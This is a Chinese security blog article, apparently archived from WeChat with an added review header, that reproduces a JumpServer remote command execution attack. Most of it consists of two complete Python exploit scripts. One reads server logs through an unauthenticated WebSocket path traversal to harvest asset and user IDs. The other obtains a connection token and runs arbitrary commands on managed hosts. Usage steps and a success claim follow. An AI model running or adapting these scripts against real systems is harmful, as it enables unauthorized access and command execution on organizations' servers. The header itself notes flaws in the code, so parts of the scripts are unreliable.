


# 【堡垒机 - 附 PoC】Jumpserver RCE 漏洞详细复现

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：JumpServer WebSocket日志/连接token及Koko
- 本文讨论：未授权日志读+connection-token越权，主CVE未标
- 版本、权限与配置前提：日志存在可用资产/user/system_user ID，关联资产可连接、token短有效期，版本未给
- 资料类型：JumpServer日志泄露到资产会话链；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 命令实际在被管资产对应系统用户上下文，不等于JumpServer服务器本机RCE
- 流程user-only=1但代码None，参数作用不明；只有ws/http替换不支持https/wss
- 日志正则贪婪且groupdict未校None，固定收4条可能阻塞；示例端口用全角冒号
- 手改三个ID/硬编码日志路径、未给修复范围；FOFA元数据取自页尾推荐链接
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 官方CVE/版本、token参数语义和日志格式待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JrkTNuFw-tK5lWcAlbeCZQ)

  

**点击蓝字 ·  关注我们**

**01**

**前言**

‍

‍

 JumpServer 开源堡垒机部署广泛, 遵循 GNU GPL v2.0 开源协议, 是符合 4A 的专业运维安全审计系统  


 网上公众号 && 大佬的分析文章已经很多了，参考了 360 安全忍者师傅的分析以后，替大家踩踩坑做一下复现。

**02**

**流程**

```
1.通过ws连接jumpserver的未授权api，进行日志读取 获取 (system_id,target_id,system_user_id)
2.利用 /api/v1/authentication/connection-token/?user-only=1  获取token （此token 20s内有效）
3.通过ws 连接 /koko/ws/token/?target_id  带入刚刚获取的token_id 进行执行命令
```

**03**

**获取日志**

```
#进行日志读取 获取 (system_id,target_id,system_user_id)
import asyncio
import websockets
import json
import re
import sys
try:
    ip=sys.argv[1]
except:
    print("example: python jumpserver_getlog_edi.py 127.0.0.1:8080")
    exit()
async def send_msg(websocket,_text):
    print("##########send payload")
    print("##########wait some time")
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(recv_text)
async def main_logic():
    async with websockets.connect(f"ws://{ip}/ws/ops/tasks/log/") as websocket:
        _text = json.dumps({"task": "../../../../../../../opt/jumpserver/logs/gunicorn"})
        await send_msg(websocket,_text)
        while True:
            recv_text = await websocket.recv()
            recv_text=json.loads(recv_text)
           # print(recv_text['message'])
           #print(len(recv_text['message']))
            if '/api/v1/perms/asset-permissions/user/validate/' in recv_text['message']:
                pattern = re.compile(
                    '\/api\/v1\/perms\/asset-permissions\/user\/validate\/\?action_name=connect&asset_id=(?P<asset>.*)&cache_policy=\d&system_user_id=(?P<system_user>.*)&user_id=(?P<user>.*) HTTP/1.1" 200 12')
                s = pattern.search(recv_text['message'])
                print(s.groupdict())
            if len(recv_text['message']) < 100:
                break
asyncio.get_event_loop().run_until_complete(main_logic())
print("end")
```

**04**

**执行命令**

### **执行命令 (刷取 token, 执行)**

```
import asyncio
import websockets
import requests
import json
url = "/api/v1/authentication/connection-token/?user-only=None"
async def send_msg(websocket,_text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(f"{recv_text}")
async def main_logic(cmd):
    print("#######start ws")
    async with websockets.connect(target) as websocket:
        recv_text = await websocket.recv()
        print(f"{recv_text}")
        resws=json.loads(recv_text)
        id = resws['id']
        print("get ws id:"+id)
        print("###############")
        print("init ws")
        print("###############")
        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket,inittext)
        for i in range(4):
            recv_text = await websocket.recv()
            print(f"{recv_text}")
        print("###############")
        print(f"exec cmd:{cmd}")
        cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd+"\r\n"})
        print(cmdtext)
        await send_msg(websocket, cmdtext)
        for i in range(4):
            recv_text = await websocket.recv()
            print(f"{recv_text}")
        print('#######finish')
if __name__ == '__main__':
    try:
        import sys
        host=sys.argv[1]
        cmd=sys.argv[2]
        if host[-1]=='/':
            host=host[:-1]
        print(host)
        data = {'asset': '6d519570-b89c-495b-bffb-f958cccaaf4c', 'system_user': '3ced8e58-8a88-4389-93cb-0bf718e8e22e', 'user': 'e6b344c0-682e-4e5c-845a-fb064e7bf673'}
        print("##################")
        print("get token url:%s" % (host + url,))
        print("##################")
        res = requests.post(host + url, json=data)
        token = res.json()["token"]
        print("token:%s", (token,))
        print("##################")
        target = "ws://" + host.replace("http://", '') + "/koko/ws/token/?target_id=" + token
        print("target ws:%s" % (target,))
        asyncio.get_event_loop().run_until_complete(main_logic(cmd))
    except:
        print("python jumpserver.py http://127.0.0.1 whoami")
```

**05**

**复现**

**0x01**

```
python jumpserver_getlog.py 127.0.0.1：8080
```

获取所用的三个 ID



**0x02**

替换 RCE 脚本的 ID 53 行处



**0x03**

```
python jumpserver_rce.py http://x.x.x.x:8080/  "ls -al"
```


看到这个就执行成功啦

**00**

Tip

**修改后的脚本打包了，懒得复制的同学可以直接 回复 "****EDI0118****" 下载**

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附 PoC】CVE-2021-2109 | Weblogic Server 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_**走过路过的大佬们留个关注再走呗**_

**往期文章有彩蛋哦******


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
